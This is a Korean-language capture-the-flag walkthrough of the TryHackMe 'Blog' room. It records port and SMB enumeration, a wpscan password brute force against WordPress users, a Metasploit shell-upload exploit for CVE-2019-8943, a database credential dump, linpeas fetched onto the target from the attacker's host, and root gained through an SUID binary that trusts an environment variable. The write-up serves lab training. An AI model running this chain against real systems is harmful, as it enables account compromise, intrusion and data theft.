


tryhackme/blog - medium

# Enumeration
```
┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ sudo nmap -p- --max-retries 1 -sS -Pn -n -open 10.10.123.178 -oA tcpAll 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 19:06 KST
Nmap scan report for 10.10.123.178
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 82.93 seconds

┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ cat tcpAll.nmap | awk '{ print $1 }' | grep -i 'tcp' | tr -d '/tcp' | paste -s -d ','
22,80,139,445

┌──(kali㉿kali)-[~/tryhackme/blog]                                                                                                                     [9/81]
└─$ sudo nmap -p 22,80,139,445 --min-rate 2500 -sV -sC -sS -Pn -n --open 10.10.123.178 -oA tcpDetailed
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 19:10 KST
Nmap scan report for 10.10.123.178
Host is up (0.26s latency).

PORT    STATE SERVICE     VERSION                                                                                                                            
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-05-10T10:10:17+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-10T10:10:17
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.57 seconds


```
윈도우에서 실행되고 있는 웹서버인 것으로 추정.
웹서버는 wordpress 5.0 버전을 사용하고 있음

우선 smb 파일 시스템 진단
```
┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ smbmap -H blog.thm     

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.123.178:445       Name: blog.thm                  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        BillySMB                                                READ, WRITE     Billy's local SMB Share
        IPC$                                                    NO ACCESS       IPC Service (blog server (Samba, Ubuntu))

┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ smbclient \\\\10.10.123.178\\BillySMB -U
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri May 10 19:12:59 2024
  ..                                  D        0  Wed May 27 02:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Wed May 27 03:17:01 2020
  tswift.mp4                          N  1236733  Wed May 27 03:13:45 2020
  check-this.png                      N     3082  Wed May 27 03:13:43 2020
get 
                15413192 blocks of size 1024. 9788756 blocks available
smb: \> get Alice-White-Rabbit.jpg 
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (24.7 KiloBytes/sec) (average 24.7 KiloBytes/sec)
smb: \> get tswift.mp4 
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (418.1 KiloBytes/sec) (average 294.8 KiloBytes/sec)
smb: \> get check-this.png 
getting file \check-this.png of size 3082 as check-this.png (2.9 KiloBytes/sec) (average 236.5 KiloBytes/sec)

```
스테가노그래피를 이용한 데이터 은폐 기술 중에 하나를 사용하는 것으로 확인이 되며,
smbmap을 이용해 smb 디렉터리를 확인하고 smbclient로 침투해 파일을 모두 받아온다.


# steghide
```
┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ steghide --info Alice-White-Rabbit.jpg 
"Alice-White-Rabbit.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "rabbit_hole.txt":
    size: 48.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
                                                                                                                                                             
┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ steghide extract -sf Alice-White-Rabbit.jpg 
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".

┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ cat rabbit_hole.txt                                                                  
You've found yourself in a rabbit hole, friend.

```


# Description
웹 화면에서 보여지는 사용자 
```
Karen Wheeler
Billy Joel
```

# gobuster
```
┌──(kali㉿kali)-[~/tryhackme/blog]                                            
└─$ gobuster dir -u http://blog.thm/ -w /usr/share/dirb/wordlists/common.txt -t 20                                                           
===============================================================                                                                                              
Gobuster v3.6                                                                                                                                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                
===============================================================                                                                                              
[+] Url:                     http://blog.thm/                                                                                                                
[+] Method:                  GET                                              
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6                      
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 273]
/0                    (Status: 301) [Size: 0] [--> http://blog.thm/0/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/atom                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/embed                (Status: 301) [Size: 0] [--> http://blog.thm/embed/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/index.php            (Status: 301) [Size: 0] [--> http://blog.thm/]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/N                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/n                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/no                   (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/note                 (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/page1                (Status: 301) [Size: 0] [--> http://blog.thm/]
/rdf                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/robots.txt           (Status: 200) [Size: 67]
/rss                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/server-status        (Status: 403) [Size: 273]
/W                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/w                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/welcome              (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/wp-admin             (Status: 301) [Size: 307] [--> http://blog.thm/wp-admin/]
/wp-content           (Status: 301) [Size: 309] [--> http://blog.thm/wp-content/]
/wp-includes          (Status: 301) [Size: 310] [--> http://blog.thm/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

# wpscan
시간이 좀 걸리지만 모든 취약점를 검사하기 위해서 --enumerate 를 사용
```
┌──(kali㉿kali)-[~/tryhackme/blog]                                            
└─$ wpscan --url http://blog.thm --enumerate

[i] User(s) Identified:           
                                       
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

```
유저 정보에 관해서 파악 완료 `wp-json/wp/v2/users` 경로를 찾아가 있는지 확인 완료


```
kwheel
bjoel
```
이 두개의 계정을 wpscan으로 브루트포싱 진행

```
┌──(kali㉿kali)-[~/tryhackme/blog]                   
└─$ wpscan --url http://blog.thm/wp-login.php --usernames kwhell --passwords /usr/share/wordlists/rockyou.txt 

┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ wpscan --url http://blog.thm/wp-login.php --usernames bjoel --passwords /usr/share/wordlists/rockyou.txt


[SUCCESS] - kwheel / cutiepie1


[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri May 10 20:03:41 2024
[+] Requests Done: 3005
[+] Cached Requests: 39
[+] Data Sent: 1.332 MB
[+] Data Received: 1.745 MB
[+] Memory used: 304.305 MB
[+] Elapsed time: 00:06:23

```

비밀번호 브루트포싱 성공

wordpress 5.0 버전임을 확인

# searchsploit
```
┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ searchsploit wordpress 5.0   
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NEX-Forms WordPress plugin < 7.9.7 - Authenticated SQLi                                                                    | php/webapps/51042.txt
WordPress 5.0.0 - Image Remote Code Execution                                                                              | php/webapps/49512.py
WordPress Core 5.0 - Remote Code Execution                                                                                 | php/webapps/46511.js
WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)                                                                | php/remote/46662.rb
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                    | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                    | php/dos/47800.py
WordPress Plugin AN_Gradebook 5.0.1 - SQLi                                                                                 | php/webapps/51632.py
WordPress Plugin Custom Pages 0.5.0.1 - Local File Inclusion                                                               | php/webapps/17119.txt
WordPress Plugin Database Backup < 5.2 - Remote Code Execution (Metasploit)                                                | php/remote/47187.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                        | php/webapps/39553.txt
WordPress Plugin FeedWordPress 2015.0426 - SQL Injection                                                                   | php/webapps/37067.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                  | php/webapps/44943.txt
WordPress Plugin leenk.me 2.5.0 - Cross-Site Request Forgery / Cross-Site Scripting                                        | php/webapps/39704.txt
WordPress Plugin Marketplace Plugin 1.5.0 < 1.6.1 - Arbitrary File Upload                                                  | php/webapps/18988.php
WordPress Plugin Network Publisher 5.0.1 - 'networkpub_key' Cross-Site Scripting                                           | php/webapps/37174.txt
WordPress Plugin Nmedia WordPress Member Conversation 1.35.0 - 'doupload.php' Arbitrary File Upload                        | php/webapps/37353.php
WordPress Plugin Quick Page/Post Redirect 5.0.3 - Multiple Vulnerabilities                                                 | php/webapps/32867.txt
WordPress Plugin RegistrationMagic V 5.0.1.5 - SQL Injection (Authenticated)                                               | php/webapps/50686.py
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                | php/webapps/48918.sh
WordPress Plugin Smart Slider-3 3.5.0.8 - 'name' Stored Cross-Site Scripting (XSS)                                         | php/webapps/49958.txt
WordPress Plugin WP-Property 1.35.0 - Arbitrary File Upload                                                                | php/webapps/18987.php
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

```
WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit) 
```
이 공개 취약점을 이용하여 익스플로잇 

# metasploit
```
msfconsole

search cve-2019-8943

use 0

set password cutiepie1
set rhosts 10.10.123.178
set username kwheel
set lhost 10.8.59.204

exploit

shell

```
대상 호스트 장악 완료
```
# wp-config.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', '<wordpress_password>');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/** Custom FS Method */
define('FS_METHOD', 'direct');

```

# mysql
```
www-data@blog:/var/www/wordpress$ mysql -u wordpressuser -p
mysql -u wordpressuser -p
Enter password: 

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 27042
Server version: 5.7.30-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases; 
show databases;
+--------------------+
+--------------------+
| blog               |        
| information_schema |                                                                                                                                           
| Database           |                                                                                                                                         
+--------------------+
 2 rows in set (0.00 sec)  

mysql> use blog;               
use blog;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_blog        |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)


mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------
+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key 
| user_status | display_name  |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------
+-------------+---------------+
|  1 | bjoel      | <before_hash> | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     
|           0 | Billy Joel    |
|  3 | kwheel     | <before_hash> | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     
|           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------
+-------------+---------------+
2 rows in set (0.00 sec)

```

# linpeas.sh 를 이용한 후속 정보 수집
```
kali
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

┌──(kali㉿kali)-[~/tryhackme/blog]
└─$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...


대상 호스트
www-data@blog:/home/bjoel$ cd /dev/shm
cd /dev/shm
www-data@blog:/dev/shm$ ls
ls
www-data@blog:/dev/shm$ wget http://10.8.59.204:1234/linpeas.sh
www-data@blog:/dev/shm$ chmod +x linpeas.sh | sh linpeas.sh


╔══════════╣ SUID - Check easy privesc, exploits and write perms                                                                                             
...                                            
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary!)  
...
```
후속 정보 수집을 통해 suid가 설정된 바이너리 `/usr/sbin/checker` 를 찾았다.

```
#수동 정보 수집
www-data@blog:/dev/shm$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null                                               
/usr/bin/passwd              
/usr/bin/newgrp          
/usr/bin/gpasswd        
/usr/bin/chsh            
/usr/bin/newuidmap    
/usr/bin/pkexec           
/usr/bin/chfn               
/usr/bin/sudo               
/usr/bin/at                    
/usr/bin/newgidmap            
/usr/bin/traceroute6.iputils  
/usr/sbin/checker           
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine                                                   
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
```
checker 존재 확인.


# 권한 상승
ltrace를 통해서 권한 상승을 한다.
ltrace - 리눅스에서 사용되는 디버깅 및 프로파일링 도구이며, 실행중인 프로그램이 호출하는 라이브러리 함수를 추적, 분석하는 기능을 제공한다. 

그래서 `/usr/sbin/checker`의 동작을 추적, 디버깅하여 권한 상승을 진행한다.

```
ctrl+c 

N

meterpreter > shell
Process 9209 created.
Channel 8 created.
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin

www-data@blog:/var/www/wordpress$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++

```
admin이라는 환경 변수가 설정되면 `/usr/sbin/checker` 이 실행되는 것같다.

```
www-data@blog:/var/www/wordpress$ export admin=blog 
export admin=blog
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/var/www/wordpress# whoami; hostname; ip a
whoami; hostname; ip a
root
blog
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:de:7e:9e:e9:f1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.123.178/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2972sec preferred_lft 2972sec
    inet6 fe80::de:7eff:fe9e:e9f1/64 scope link 
       valid_lft forever preferred_lft forever

```
권한 상승 완료 
이제 flag 획득하러가자!!

root.txt
```
root@blog:/root# cat root.txt
cat root.txt
<flag>
```

user.txt
```
root@blog:/root# find / -name "user.txt" 2> /dev/null 
find / -name "user.txt" 2> /dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/root# cat /media/usb/user.txt
cat /media/usb/user.txt
<flag>

```


